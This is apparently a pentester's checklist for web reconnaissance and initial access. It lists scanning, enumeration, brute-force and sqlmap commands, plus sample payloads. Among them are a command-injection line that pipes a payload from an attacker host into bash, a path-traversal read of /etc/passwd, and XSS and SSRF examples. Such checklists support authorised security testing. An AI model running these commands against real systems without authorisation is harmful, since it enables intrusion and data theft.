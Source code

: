 # Index
- [[Methodology]]
	- [[Physical Access Methodology]]
	- [[Linux Methodology]]
	- [[Windows Methodology]]
	- [[Web Application Methodology]]
	- [[Cloud Methodology]]

# External Reconnaissance
- [ ] **OSINT:** Gather emails, domains, IP addresses, and open ports related to the target.
- [ ] **Nmap:** Conduct a comprehensive scan to identify open ports and services.
    - `nmap -n -Pn -A <target_ip> -p- -o <assessment_number>_<system_name>_<date>`
- [ ] **Nessus:** Identify vulnerabilities, misconfigurations, and outdated patches using Nessus.
- [ ] **Shodan/Censys:** Search for exposed services and vulnerabilities related to the web application.
    - `shodan search <target_domain>`
- [ ] **Burp Suite** - Enumerate and test for vulnerabilities (SQLi, XSS, SSRF).
- [ ] **DNS Enumeration:** Perform DNS enumeration to gather subdomains and other DNS-related information.
    - `dig axfr <domain> @<dns_server>`
    - `dnsenum <domain>`
- [ ] **WHOIS Information:** Identify ownership and contact details of the domain.
    - `whois <target_domain>`
- [ ] **Directory and File Enumeration:** Discover hidden directories and files using fuzzing techniques.
    - `gobuster dir -u <target_url> -w <wordlist>`
    - `dirb http://<target_url>`
- [ ] **Subdomain Enumeration:** Enumerate subdomains that may lead to other attack surfaces.
    - `subfinder -d <target_domain>`
    - `amass enum -d <target_domain>`
- [ ] **Web Application Fingerprinting:** Identify web application technologies and frameworks in use (e.g., CMS, languages).
    - `whatweb <target_url>`
    - `wappalyzer`

# Initial Access
- [ ] **Login Bruteforce/Password Spraying:** Attempt login brute force or password spraying against exposed login portals.
    - `hydra -l <username> -P <password_list> <target_domain> http-post-form "/login:username=^USER^&password=^PASS^"`
- [ ] **SQL Injection (SQLi):** Test for SQL injection vulnerabilities in input fields, URLs, and forms.
    - `sqlmap -u "http://<target_domain>/index.php?id=1" --dbs`
- [ ] **Cross-Site Scripting (XSS):** Inject malicious scripts into vulnerable input fields or parameters.
    - Test manually or use tools like `XSSer` or `OWASP ZAP`.
    - Example: `<script>alert('XSS')</script>`
- [ ] **Cross-Site Request Forgery (CSRF):** Test for CSRF vulnerabilities in forms and HTTP methods.
    - Manually or using `Burp Suite`.
- [ ] **Server-Side Request Forgery (SSRF):** Exploit SSRF to force the web server to make requests on your behalf.
    - `http://<target_url>/fetch.php?url=http://internal_server/private_page`
- [ ] **Command Injection:** Test for command injection vulnerabilities through vulnerable input fields or headers.
    - `; id`
    - `curl http://<attack_ip>:<port>/payload | bash`
- [ ] **Remote File Inclusion (RFI) / Local File Inclusion (LFI):** Exploit file inclusion vulnerabilities to access remote or local files.
    - Example: `http://<target_domain>/page.php?file=../../etc/passwd`